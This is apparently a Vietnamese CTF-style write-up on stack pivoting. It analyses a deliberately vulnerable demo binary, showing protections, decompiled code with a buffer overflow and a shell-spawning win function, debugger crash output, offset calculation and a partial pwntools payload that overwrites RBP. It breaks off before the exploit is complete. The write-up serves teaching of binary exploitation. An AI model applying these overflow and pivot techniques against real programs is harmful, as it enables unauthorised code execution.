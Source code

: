 # stackpivot_chall_demo_file

***Mục đích chính của kỹ thuật này là chuyển hướng luồng thực thi của chương trình bằng cách thay đổi con trỏ stack (RSP/ESP) sang một vùng nhớ mới mà chúng ta kiểm soát, từ đó thực thi các đoạn mã (thường là ROP chain) đã được đặt sẵn ở vùng nhớ đó.***

### Tại sao cần Stack Pivot?
1. **Không đủ không gian trên stack hiện tại**: Khi buffer quá nhỏ, không đủ để chứa toàn bộ ROP chain.
2. **Kiểm soát vùng nhớ mới**: Chúng ta có thể ghi dữ liệu lên các vùng nhớ khác (như heap, .bss) và muốn thực thi ROP chain từ đó.
3. **Bypass một số cơ chế bảo vệ**: Như ASLR, NX, Stack Canary (bằng cách tránh việc ghi đè lên stack ban đầu).

# File demo (`chall5`)
## Kiểm tra cơ chế bảo vệ
```bash
checksec chall5
```
```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
* No canary vì thế chúng ta có thể ghi đè return address
* No PIE : địa chỉ không bị random hóa

## Kiểm tra mã giả với IDA64
```bash
ida64 chall5
```
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-2h] BYREF

  init(argc, argv, envp);
  qword_404850 = (__int64)win;
  puts("Welcome human!");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Buy");
        puts("2. Sell");
        puts("3. Exit");
        printf("> ");
        read(0, buf, 2uLL);
        if ( buf[0] != 49 )
          break;
        buy();
      }
      if ( buf[0] != 50 )
        break;
      sell();
    }
    if ( buf[0] == 51 )
      break;
    puts("Invalid choice!");
  }
  puts("Thanks for coming!");
  return 0;
}
```
* Có thể thấy chương trình mô phỏng một menu với các lựa chọn `Buy`, `Sell`, `Exit`.
* Phát hiện hàm win được gán vào một con trỏ có địa chỉ `404850`, hàm này có thể tạo shell:
```
int win()
{
  return system("/bin/sh");
}
```
* Kiểm tra hàm `Buy`:
```
__int64 buy()
{
  __int64 result; // rax
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+1Ch] [rbp-4h]

  v2 = 0;
  puts("1. Apple");
  puts("2. Banana");
  puts("3. Cambridge IELTS Volumn 4");
  printf("> ");
  v2 = read(0, buf, 0x28uLL);
  result = (unsigned __int8)buf[v2 - 1];
  if ( (_BYTE)result == 10 )
  {
    result = v2 - 1;
    buf[result] = 0;
  }
  return result;
}
```
- Tại đây chương trình khai báo biến `buf` chứa được 28 byte nhưng đọc vào 0x28 hexabyte (40 byte) vì vậy xảy ra buffer overflow.
## Khai thác
### Kiểm tra giá trị thanh ghi khi chương trình crash
* Thử nhập vào hàm `Buy` 40 byte, chương trình gặp lỗi `SIGBUS`:
```
Program received signal SIGBUS, Bus error.
```
* Nhận thấy giá trị RBP bị thay đổi nhưng RIP thì không, Nên luồng chương trình vẫn trờ về hàm main để tiếp tục. Tuy nhiên RBP được lấy ra là một địa chỉ không hợp lệ do đã bị ghi đè nên chương trình bị lỗi.
```
RBP  0x6161616161616165 ('eaaaaaaa')
RIP  0x401311 (main+123) ◂— movzx eax, byte ptr [rbp - 2]
```
* Do địa chỉ binary tĩnh nên ta nghĩ đến việc thay đổi RBP thành một giá trị hợp lệ 
```
vmmap
```
* Ta thấy từ địa chỉ 0x404000 tới 0x405000 có quyền rw, do là rbp -2 nên ta chọn sao cho khi thực thi không bị nhảy tới vùng nhớ trước nó.
```
0x404000           0x405000 rw-p     1000    3000 chall5
```
```bash
x/50xg 0x404000
```
* Chọn `0x404900`
### Tính offset
```bash
cyclic -l 0x6161616161616165
```
```
Found at offset 32
```
## SCRIPT
* Đặt input, debug động để xem giá trị RBP
```python
input()
p.sendlineafter(b'> ', b'1')
payload = b'A' * 32
payload += p64(0x404900)
```
* Giá trị RBP đã bị thay đổi
```
RBP  0x404900
```
* Đặt breakpoint tại lệnh read trong hàm `Buy` xem dữ liệu bị thay đổi.
```
rbp         0x7ffce1907cf0 —▸ 0x7ffce1907d10
```
* Ta thấy lúc này overwrite được rbp của hàm main, sau khi về hàm `main` thì rbp nhận giá trị mà ta đã overwrite.
* (Còn tiếp)



